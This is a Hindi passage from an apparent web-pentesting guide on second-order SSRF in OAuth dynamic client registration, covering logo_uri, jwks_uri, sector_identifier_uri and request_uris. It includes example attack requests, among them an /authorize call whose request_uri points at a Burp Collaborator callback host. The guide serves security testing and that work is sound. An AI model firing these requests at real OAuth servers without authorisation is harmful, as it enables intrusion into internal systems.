 जैसा कि आप यहाँ देख सकते हैं, इन मूल्यों में से कई URL संदर्भों के माध्यम से पास किए जाते हैं और [Server Side Request Forgery](https://portswigger.net/web-security/ssrf) के लिए संभावित लक्ष्य की तरह दिखते हैं। साथ ही, हमने जिन अधिकांश सर्वरों का परीक्षण किया है, वे इन URL को पंजीकरण अनुरोध प्राप्त होने पर तुरंत हल नहीं करते हैं। इसके बजाय, वे बस **इन पैरामीटर्स को सहेजते हैं और उन्हें OAuth प्राधिकरण प्रवाह के दौरान बाद में उपयोग करते हैं**। दूसरे शब्दों में, यह एक दूसरे-क्रम का SSRF अधिक है, जो कि ब्लैक-बॉक्स पता लगाने को कठिन बनाता है।

निम्नलिखित पैरामीटर्स SSRF हमलों के लिए विशेष रूप से दिलचस्प हैं:

* **logo\_uri** - URL जो **क्लाइंट एप्लिकेशन के लोगो** का संदर्भ देता है। **क्लाइंट पंजीकृत करने के बाद**, आप अपने नए "client\_id" का उपयोग करके OAuth प्राधिकरण एंडपॉइंट ("/authorize") को कॉल करने का प्रयास कर सकते हैं। लॉगिन के बाद, सर्वर आपसे अनुरोध को मंजूरी देने के लिए कहेगा और **"logo\_uri" से छवि प्रदर्शित कर सकता है**। यदि **सर्वर स्वयं छवि को प्राप्त करता है**, तो इस चरण से SSRF ट्रिगर होना चाहिए। वैकल्पिक रूप से, सर्वर केवल **क्लाइंट-साइड "\<img>" टैग के माध्यम से लोगो को शामिल कर सकता है**। हालांकि यह SSRF की ओर नहीं ले जाता है, यह **XSS की ओर ले जा सकता है यदि URL बच नहीं है**।
*   **jwks\_uri** - क्लाइंट के JSON Web Key Set \[JWK] दस्तावेज़ के लिए URL। जब JWTs का उपयोग करके क्लाइंट प्रमाणीकरण के लिए हस्ताक्षरित अनुरोधों को मान्य करने के लिए इस की सेट की सर्वर पर आवश्यकता होती है \[RFC7523]। इस पैरामीटर में SSRF के लिए परीक्षण करने के लिए, **एक दुर्भावनापूर्ण "jwks\_uri" के साथ एक नया क्लाइंट एप्लिकेशन पंजीकृत करें**, प्राधिकरण प्रक्रिया को पूरा करें ताकि **किसी भी उपयोगकर्ता के लिए एक प्राधिकरण कोड प्राप्त किया जा सके, और फिर निम्नलिखित बॉडी के साथ "/token" एंडपॉइंट को प्राप्त करें**:

`POST /oauth/token HTTP/1.1`\
`...`\
\`\`\
`grant_type=authorization_code&code=n0esc3NRze7LTCu7iYzS6a5acc3f0ogp4&client_assertion_type=urn:ietf:params:oauth:client-assertion-type:jwt-bearer&client_assertion=eyJhbGci...`

यदि संवेदनशील है, तो **सर्वर को आपके द्वारा प्रदान किए गए "jwks\_uri" के लिए सर्वर-से-सर्वर HTTP अनुरोध करना चाहिए** क्योंकि इसे आपके अनुरोध में "client\_assertion" पैरामीटर की वैधता की जांच करने के लिए इस की की आवश्यकता होती है। यह शायद केवल एक **अंधा SSRF संवेदनशीलता होगी**, क्योंकि सर्वर एक उचित JSON प्रतिक्रिया की अपेक्षा करता है।
* **sector\_identifier\_uri** - यह URL एक फ़ाइल का संदर्भ देता है जिसमें एकल **JSON ऐरे ऑफ़ redirect\_uri मूल्य** होते हैं। यदि समर्थित है, तो सर्वर आपके द्वारा गतिशील पंजीकरण अनुरोध सबमिट करते ही इस मूल्य को **प्राप्त कर सकता है**। यदि यह तुरंत प्राप्त नहीं किया जाता है, तो सर्वर पर इस क्लाइंट के लिए प्राधिकरण करने का प्रयास करें। चूंकि इसे प्राधिकरण प्रवाह को पूरा करने के लिए redirect\_uris को जानने की आवश्यकता होती है, इससे सर्वर को आपके दुर्भावनापूर्ण sector\_identifier\_uri के लिए अनुरोध करने के लिए मजबूर किया जाएगा।
*   **request\_uris** - इस क्लाइंट के लिए **अनुमत request\_uris का एक ऐरे**। "request\_uri" पैरामीटर को प्राधिकरण एंडपॉइंट पर समर्थित किया जा सकता है ताकि अनुरोध जानकारी के साथ JWT युक्त URL प्रदान किया जा सके (देखें [https://openid.net/specs/openid-connect-core-1_0.html#rfc.section.6.2](https://openid.net/specs/openid-connect-core-1_0.html#rfc.section.6.2))।

यदि गतिशील क्लाइंट पंजीकरण सक्षम नहीं है, या इसके लिए प्रमाणीकरण की आवश्यकता है, हम "request\_uri" का उपयोग करके प्राधिकरण एंडपॉइंट पर SSRF का प्रदर्शन करने का प्रयास कर सकते हैं:\\

`GET /authorize?response_type=code%20id_token&client_id=sclient1&request_uri=https://ybd1rc7ylpbqzygoahtjh6v0frlh96.burpcollaborator.net/request.jwt`

नोट: इस पैरामीटर को "redirect\_uri" के साथ भ्रमित न करें। "redirect\_uri" का उपयोग प्राधिकरण के बाद पुनर्निर्देशन के लिए किया जाता है, जबकि **"request\_uri" को सर्वर द्वारा प्राधिकरण प्रक्रिया की शुरुआत में प्राप्त किया जाता है**।

साथ ही, हमने जिन कई सर्वरों को देखा है, वे मनमाने "request\_uri" मूल्यों की अनुमति नहीं देते हैं: वे केवल सफेद सूची में डाले गए URL की अनुमति देते हैं जो क्लाइंट पंजीकरण प्रक्रिया के दौरान पहले से पंजीकृत किए गए थे। इसलिए हमें पहले "request\_uris": "https://ybd1rc7ylpbqzygoahtjh6v0frlh96.burpcollaborator.net/request.jwt" प्रदान करने की आवश्यकता है।

## OAuth प्रदाता रेस कंडीशन्स
